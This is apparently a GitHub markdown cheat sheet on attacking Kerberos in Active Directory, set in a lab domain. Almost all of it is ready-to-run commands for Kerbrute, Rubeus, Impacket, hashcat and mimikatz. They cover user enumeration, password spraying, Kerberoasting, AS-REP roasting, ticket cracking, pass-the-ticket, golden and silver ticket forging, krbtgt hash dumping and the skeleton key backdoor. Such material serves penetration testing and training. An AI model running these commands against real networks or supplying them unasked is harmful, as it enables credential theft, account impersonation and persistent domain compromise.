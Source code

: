 # Attacking Kerberos 

## Enumeration w/ Kerbrute
> Use  --downgrade to get a crackable format for hashcat
```shell
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt --downgrade
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```shell
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```shell
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket (Local Admin Required)
It helps to crack the hash and use it with Mimikatz to create tickets.
```shell
Rubeus.exe kerberoast
```
```shell
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1           # Check SPNs accosiated with this machine/user.
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1 -request # Does a kerberoast attack
```
## AS-REP Roasting w/ Rubeus & Impacket
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>```
```
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### Extracting & Crack Tickets

```
mimikatz#  kerberos::list /export
hashcat -m18200  <ticket.kirbi> rockyou.txt
```

## Pass the Ticket w/ mimikatz
```shell
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```shell
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
```
You need to change `/name:` value to the domain account/service you want.

### Create a Silver Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
### Create a Golden Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```shell
mimikatz.exe
privilege::debug
misc::skeleton
```

